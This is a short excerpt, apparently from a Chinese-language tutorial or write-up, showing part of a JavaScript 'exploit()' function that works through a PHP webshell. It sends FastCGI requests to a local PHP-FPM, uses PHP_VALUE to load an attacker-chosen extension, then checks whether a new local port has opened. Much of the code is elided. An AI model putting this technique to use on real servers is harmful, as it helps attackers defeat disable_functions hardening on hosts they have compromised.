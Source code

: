   
5.和新的web服务通讯  
  
```
exploit() {
    // ... [代码省略] ...
    new Promise((res, rej) => {
        // ... [代码省略] ...
    }).then((p) => {
        // 触发 payload, 会超时
        var payload = `${FastCgiClient()};
          $content="";
          $client = new Client('${fpm_host}',${fpm_port});
          $client->request(array(
            // FastCGI 请求参数
            'GATEWAY_INTERFACE' => 'FastCGI/1.0',
            'REQUEST_METHOD' => 'POST',
            'SERVER_SOFTWARE' => 'php/fcgiclient',
            'REMOTE_ADDR' => '127.0.0.1',
            'REMOTE_PORT' => '9984',
            'SERVER_ADDR' => '127.0.0.1',
            'SERVER_PORT' => '80',
            'SERVER_NAME' => 'mag-tured',
            'SERVER_PROTOCOL' => 'HTTP/1.1',
            'CONTENT_TYPE' => 'application/x-www-form-urlencoded',
            'PHP_VALUE' => 'extension=${p}',
            'PHP_ADMIN_VALUE' => 'extension=${p}',
            'CONTENT_LENGTH' => strlen($content)
            ),
            $content
          );
          sleep(1);
          echo(1);
        `;
        core.request({
          _: payload,
        }).then((response) => {

        }).catch((err) => {
          // 超时也是正常
        })
      }).then(() => {
        // 验证是否成功开启
        var payload = `sleep(1);
          $fp = @fsockopen("127.0.0.1", ${port}, $errno, $errstr, 1);
          if(!$fp){
            echo(0);
          }else{
            echo(1);
            @fclose($fp);
          };`
        core.request({
          _: payload,
        }).then((response) => {
          // ... [代码省略] ...
        }).catch((err) => {
          // ... [代码省略] ...
        })
      }).catch((err) => {
        // ... [代码省略] ...
      });
    // ... [代码省略] ...
}
```  
  